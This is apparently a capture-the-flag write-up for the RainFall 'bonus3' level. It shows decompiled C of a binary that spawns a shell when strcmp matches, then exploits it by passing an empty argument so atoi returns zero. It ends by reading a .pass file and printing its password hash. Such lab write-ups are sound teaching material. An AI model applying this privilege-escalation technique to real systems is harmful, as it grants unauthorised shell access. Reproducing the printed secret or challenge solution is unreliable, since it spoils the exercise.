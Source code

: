 ## Step 1: Static & Dynamic Analysis

```c
080484f4    int32_t main(int32_t argc, char** argv, char** envp)
080484f4    {
080484f4        FILE* fp = fopen("/home/user/end/.pass", u"r…");
08048531        void buffer;
08048531        __builtin_memset(&buffer, 0, 132);
08048531        
08048541        if (!fp || argc != 2)
0804856f            return -1;
0804856f        
0804856f        fread(&buffer, 1, 66, fp);
08048574        char c = 0;
08048589        *(uint8_t*)(&buffer + atoi(argv[1])) = 0;
080485b3        void buffer2;
080485b3        fread(&buffer2, 1, 65, fp);
080485c2        fclose(fp);
080485c2        
080485e1        if (strcmp(&buffer, argv[1]))
0804860b            puts(&buffer2);
080485e1        else
080485fa            execl("/bin/sh", "sh", 0);
080485fa        
08048610        return 0;
080484f4    }
```

### Explanation

The program opens `/home/user/end/.pass` using `fopen()`. If the file cannot be opened or if the number of arguments is not two, it return with `-1`. A buffer (`buffer`) is initialized with null bytes and filled with the first `66` bytes from the file. The provided argument (`argv[1]`) is converted to an integer using `atoi()`, and a null byte is inserted into the buffer at this index.

The next 65 bytes from the file are read into `buffer2`. The program compares the buffer to `argv[1]` using `strcmp()`. If they match, it executes `/bin/sh` else it prints the content of `buffer2`.

The plan is to provide an empty string (`""`) as the argument to the program. When passed to `atoi()`, this will return `0`, causing the null byte to be inserted at the very beginning of the buffer. The comparison with `argv[1]` will evaluate to true, spawning a shell.

## Step 2: Exploiting the Binary

```bash
bonus3@RainFall:~$ ./bonus3 ""

% cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```